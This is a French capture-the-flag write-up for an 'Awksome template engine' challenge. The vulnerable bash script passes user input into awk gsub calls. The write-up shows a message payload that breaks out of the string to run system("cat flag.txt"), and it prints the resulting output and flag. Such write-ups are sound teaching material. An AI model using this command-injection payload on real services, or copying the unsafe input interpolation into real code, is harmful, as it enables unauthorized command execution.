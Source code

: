 # Awksome template engine ✉️

### Information:
- tcp://REDACTED:REDACTED
- Localisation du flag `./flag.txt`

Je me connecte et on me crache le code source au visage! :)

```
#!/usr/bin/bash

cat "${0}"

/usr/games/cowsay -f tux.cow "Bienvenue sur notre engin de génération de courriel !"

echo -n "Pour: "
read -r RECEIVER

echo -n "De: "
read -r SENDER

echo -n "Sujet: "
read -r SUBJECT

echo -n "Contenu: "
read -r MSG

echo -e "Création ...\n\n\n"

read -rd '' PROGRAM << EOF
{ 
  gsub(/:receiver:/,"${RECEIVER}");
  gsub(/:sender:/,"${SENDER}");
  gsub(/:subject:/,"${SUBJECT}");
  gsub(/:msg:/,"${MSG}");
}1
EOF

awk "${PROGRAM}" < template

exit 0
```

Comme dans un precedant challenge (Chip_Legend) on se sert de `:name:` comme valeur a remplacer mais cette fois avec `awk`

Visiblement cette partit est vulnerable
```bash
{ 
  gsub(/:receiver:/,"${RECEIVER}");
  gsub(/:sender:/,"${SENDER}");
  gsub(/:subject:/,"${SUBJECT}");
  gsub(/:msg:/,"${MSG}");
}1
```

Donc pour une valeur de `${MSG}` `"); system("cat flag.txt") #`
Le code va donc donner ceci:

```bash
{ 
  gsub(/:receiver:/,"${RECEIVER}");
  gsub(/:sender:/,"${SENDER}");
  gsub(/:subject:/,"${SUBJECT}");
  gsub(/:msg:/,""); system("cat flag.txt") #);
}1
```


```bash
# ------------------------------------------------------

 _________________________________________
/ Bienvenue sur notre engin de génération \
\ de courriel !                           /
 -----------------------------------------
   \
    \
        .--.
       |o_o |
       |:_/ |
      //   \ \
     (|     | )
    /'\_   _/`\
    \___)=(___/

Pour: 
De: 
Sujet: 
Contenu: "); system("cat flag.txt") #
Création ...
```


`FINCTF-d4082e4816e0a3059e9b7a5bb473f7`